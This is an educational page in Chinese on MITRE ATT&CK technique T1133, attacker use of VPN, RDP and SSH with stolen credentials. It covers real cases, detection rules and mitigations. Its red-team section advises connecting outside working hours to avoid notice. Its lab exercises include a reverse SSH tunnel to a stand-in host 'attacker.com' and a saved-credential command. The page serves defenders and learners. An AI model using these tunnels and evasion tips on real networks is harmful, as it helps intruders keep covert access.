

# 外部远程服务 (T1133)

## 一句话通俗理解

> 就像小偷偷了你家的门禁卡，然后每天正常刷卡进出门——攻击者用偷来的VPN/远程桌面凭据，像合法员工一样随时进出你的网络，完全不需要安装任何后门。

## 难度等级

⭐⭐ 中等（需要有效的远程访问凭据）

## 技术描述

攻击者可能使用面向外部的远程服务作为建立和维持对网络持久访问的手段。外部远程服务是指可以从互联网或其他外部网络访问的服务，允许远程用户连接到内部组织资源。常见示例包括虚拟专用网络（VPN）、远程桌面协议（RDP）、安全Shell（SSH）、Citrix/VDI网关和其他远程访问解决方案，如TeamViewer、AnyDesk和Splashtop。

攻击者可能获得这些服务的有效凭据（通过凭据窃取、密码猜测或从初始访问代理购买）并使用它们反复访问目标网络。与可能被端点安全工具检测到的基于恶意软件的持久性不同，使用具有有效凭据的合法远程服务与正常的远程用户活动混在一起。一旦连接，攻击者就可以在内部网络中操作、横向移动并进行进一步操作。

## 子技术列表

该技术无子技术。

## 攻击流程



```
1. 获取远程访问凭据：
   - 凭据窃取（键盘记录、内存抓取）
   - 密码猜测/暴力破解
   - 从暗网购买
   - 社会工程学
    ↓
2. 连接远程服务：
   - VPN
   - RDP
   - SSH
   - Citrix/VDI
    ↓
3. 以合法用户身份操作
    ↓
4. 横向移动到内部系统
    ↓
5. 维持持久访问（凭据轮换后仍有效）
```

## 真实案例

### 案例1：DarkSide勒索软件利用VPN访问
- **时间**: 2021年
- **目标**: Colonial Pipeline、全球企业
- **手法**: DarkSide勒索软件集团通过租用初始访问代理的VPN访问权限进入目标网络。攻击者使用凭据购买的VPN网关进入目标网络，最终部署勒索软件，导致美国东海岸燃料供应链中断。
- **链接**: https://attack.mitre.org/software/S0498/

### 案例2：APT41利用SSH隧道
- **时间**: 2019年
- **目标**: 全球科技公司和政府机构
- **手法**: APT41使用SSH隧道维持对Linux服务器的持久访问。攻击者创建SSH反向隧道以维持从C2基础设施到受害系统的持续连接，隧道被配置为在中断时自动重新连接。
- **链接**: https://attack.mitre.org/groups/G0016/

### 案例3：Scattered Spider利用SaaS远程访问
- **时间**: 2023年
- **目标**: MGM Resorts、Caesars Entertainment等
- **手法**: Scattered Spider使用社会工程学攻击针对IT帮助台，重置目标用户的MFA设备和密码，从而获得对VPN和远程桌面服务的访问。攻击者使用被盗凭据通过Citrix和VMware Horizon VDI环境连接到内部网络。
- **链接**: https://www.crowdstrike.com/blog/scattered-spider-delivers-ransomware-at-warp-speed/

### 案例4：Volt Typhoon利用远程服务
- **时间**: 2023-2024年
- **目标**: 美国关键基础设施
- **手法**: Volt Typhoon利用合法的远程管理工具和VPN连接来维持对受害者网络的持久访问，使用被盗凭据以合法用户身份操作，难以与正常远程办公流量区分。
- **链接**: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

**攻击优势**：
- 使用合法凭据，难以与正常用户区分
- 不需要安装恶意软件
- 可以绕过许多端点安全控制

**常用工具**：
```cmd
REM RDP连接
mstsc /v:target:3389

REM SSH连接
ssh user@target

REM VPN连接
# 使用窃取的VPN配置文件

REM 远程桌面工具
# TeamViewer、AnyDesk等
```

**实战技巧**：
- 优先使用VPN访问（看起来更合法）
- 在非工作时间连接减少被注意的可能
- 配合T1078（有效账户）使用

## 蓝队视角

**防御重点**：
- 监控异常时间的远程访问连接
- 检测异常地理位置的登录
- 实施MFA保护所有远程服务

**常见盲点**：
- 只监控RDP，忽略VPN和SSH
- 未检测同一账户的多个并发会话
- 缺乏对远程访问工具的监控

## 检测建议

### 网络层检测

**检测方法：** 监控VPN网关和远程访问网关的流量日志，检测异常连接模式。

**具体规则/命令示例：**
```bash
# Suricata规则检测RDP暴力破解
alert tcp $EXTERNAL_NET any -> $HOME_NET 3389 (msg:"RDP Brute Force Attempt"; flow:to_server,established; detection_filter:track by_src, count 20, seconds 30; sid:1000205; rev:1;)
```

### 主机层检测

**检测方法：** 监控远程登录事件，检测异常时间、地理位置和失败登录模式。

**Windows事件ID：**
- 事件ID 4624：账户成功登录（LogonType 10=RDP）
- 事件ID 4625：账户登录失败
- 事件ID 4648：使用显式凭据登录
- 事件ID 4778：远程桌面会话重新连接

**Linux日志：**
- 日志文件：`/var/log/auth.log` 或 `/var/log/secure`
- 关键字段：sshd条目中的Accepted、Failed password
- 关键字段：VPN客户端连接日志（/var/log/openvpn.log等）

**具体命令示例：**
```bash
# 检查RDP连接历史
reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"

# 检查最近的SSH连接
grep "Accepted" /var/log/auth.log | tail -20

# 检查VPN连接日志
grep "VPN" /var/log/messages | tail -20
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: 异常时间远程登录检测
status: experimental
description: 检测在非工作时间发生的远程登录事件
logsource:
    category: authentication
    product: windows
detection:
    selection:
        EventID: 4624
        LogonType:
            - 10  # RDP
            - 2   # 本地
    time_condition:
        EventTime|between: ['00:00:00', '06:00:00']
    condition: selection and time_condition
level: medium
tags:
    - attack.t1133
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 远程访问MFA强制实施

**具体实施步骤：**
1. 对所有面向外部的远程访问服务（VPN、RDP、Citrix、SSH）强制实施多因素认证
2. 配置VPN网关使用证书+密码的双因素认证
3. 对RDP访问配置RD网关和网络级身份验证（NLA）
4. 实施条件访问策略，基于设备合规性和地理位置限制远程访问

### 优先级2：重要措施

**措施名称：** 网络分段与访问控制

**具体实施步骤：**
1. 限制面向外部的RDP直接暴露，强制使用VPN作为中介
2. 实施Just-In-Time（JIT）远程访问权限，临时开放端口
3. 遵循最小权限原则，为远程用户配置仅访问所需系统的权限
4. 定期进行外部暴露面评估，关闭不必要的远程访问入口

**配置示例：**
```bash
# 配置NLA（网络级身份验证）
# 通过组策略：计算机配置 -> 管理模板 -> Windows组件 -> 远程桌面服务 -> 远程桌面会话主机 -> 安全
# 启用"要求使用网络级身份验证进行远程连接"

# 限制SSH访问特定IP范围
echo "sshd: 10.0.0.0/8 172.16.0.0/12" >> /etc/hosts.allow
echo "sshd: ALL" >> /etc/hosts.deny
```

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：RDP连接测试
```cmd
REM 使用有效凭据连接RDP
mstsc /v:192.168.1.100:3389

REM 使用cmdkey保存凭据
cmdkey /generic:192.168.1.100 /user:admin /pass:password
```

### 实验2：SSH隧道
```bash
# 创建反向SSH隧道
ssh -R 8080:localhost:80 user@attacker.com

# 创建动态SOCKS代理
ssh -D 1080 user@target.com
```

### 实验3：使用Atomic Red Team测试
```powershell
# 执行T1133测试
Invoke-AtomicTest T1133
```

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| VPN | Virtual Private Network | 虚拟专用网络，通过公共网络建立的安全加密通道 |
| RDP | Remote Desktop Protocol | 远程桌面协议，Windows系统自带的远程控制功能 |
| SSH | Secure Shell | 安全Shell，用于安全远程登录Linux/Unix系统的协议 |
| VDI | Virtual Desktop Infrastructure | 虚拟桌面基础设施，在服务器上运行虚拟桌面的技术 |
| MFA | Multi-Factor Authentication | 多因素认证，需要两种以上验证方式的认证方法 |
| PAM | Privileged Access Management | 特权访问管理，控制和管理高权限账户的系统 |

## 参考资料

- [MITRE ATT&CK T1133 外部远程服务](https://attack.mitre.org/techniques/T1133/)
- [DarkSide勒索软件分析 - Mandiant](https://www.mandiant.com/resources/darkside-ransomware-and-the-colonial-pipeline-attack)
- [Volt Typhoon Advisory - CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)
- [Scattered Spider分析 - CrowdStrike](https://www.crowdstrike.com/blog/scattered-spider-delivers-ransomware-at-warp-speed/)
- [Atomic Red Team - T1133](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1133)
